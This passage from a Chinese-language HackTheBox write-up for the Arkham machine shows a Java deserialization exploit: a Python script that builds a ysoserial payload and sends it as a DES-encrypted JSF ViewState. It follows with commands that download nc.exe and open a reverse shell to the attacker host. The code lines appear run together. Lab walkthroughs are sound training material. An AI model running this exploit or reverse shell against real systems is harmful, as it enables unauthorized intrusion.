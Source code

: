 ![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aepW03yx5oJo6Sj1015oJfbIXO1NQErfShPKysMztC46TegH4J22mwgg/640?wx_fmt=png)成功收到 ping 命令，反序列化漏洞验证成功

### 获取 shell

为了获取目标站点的 shell，我们把 nc64.exe 放在本目录下并开启 http 服务

```
python -m SimpleHTTPServer 80<br style="box-sizing: border-box;">
```

在本地开启监听，接收反弹 shell

```
rlwrap nc -nvlp 443 <br style="box-sizing: border-box;">
```

这里需要在 exploit.py 进行略微修改，源码如下

```
#!/usr/bin/env python3import requestsimport subprocessimport sysfrom base64 import b64encodefrom Crypto.Cipher import DESfrom Crypto.Hash import SHA, HMACfrom os import devnullfrom urllib.parse import quote_plus as urlencodewith open(devnull, 'w') as null:    payload = subprocess.check_output(['java', '-jar', '/root/hackthebox/Machines/Arkham/ysoserial-0.0.6-SNAPSHOT-BETA-all.jar', 'CommonsCollections5', sys.argv[1]], stderr=null)pad = (8 - (len(payload) % 8)) % 8padded = payload + (chr(pad)*pad).encode()d = DES.new(b'JsF9876-', DES.MODE_ECB)enc_payload = d.encrypt(padded)sig = HMAC.new(b'JsF9876-', enc_payload, SHA).digest()viewstate = b64encode(enc_payload + sig)sess = requests.session()sess.get('http://10.10.10.130:8080/userSubscribe.faces')resp = sess.post('http://10.10.10.130:8080/userSubscribe.faces',        data = {'j_id_jsp_1623871077_1%3Aemail': 'd',                'j_id_jsp_1623871077_1%3Asubmit': 'SIGN+UP',                'j_id_jsp_1623871077_1_SUBMIT': '1',                'javax.faces.ViewState': viewstate})
```

执行以下命令上传 nc 并使用 nc 连接本地 443 端口

```
python3 exploit2.py "powershell -c Invoke-Webrequest -uri 'http://10.10.14.14/nc64.exe' -outfile \windows\system32\spool\drivers\color\nc.exe"python3 exploit2.py "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.14 443"
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aew0gicXUbkr8KbdoMJtpPPicrfx3hCLZzMctrSTLPKJzFUOM0vaZX0uAA/640?wx_fmt=png)成功收到反弹 shell

### 读取 user.txt

在 Alfred 的桌面上找到 flag

```
dir C:\Users\Alfred\Desktoptype C:\Users\Alfred\Desktop\user.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeh3MZtc52IHSNRbicFan68zmvJnIarkAZRjeYCHSRFbNp0zmcHR36VFA/640?wx_fmt=png)成功拿到第一个 flag

0x03 权限提升 [batman]
------------------

### 获得密码
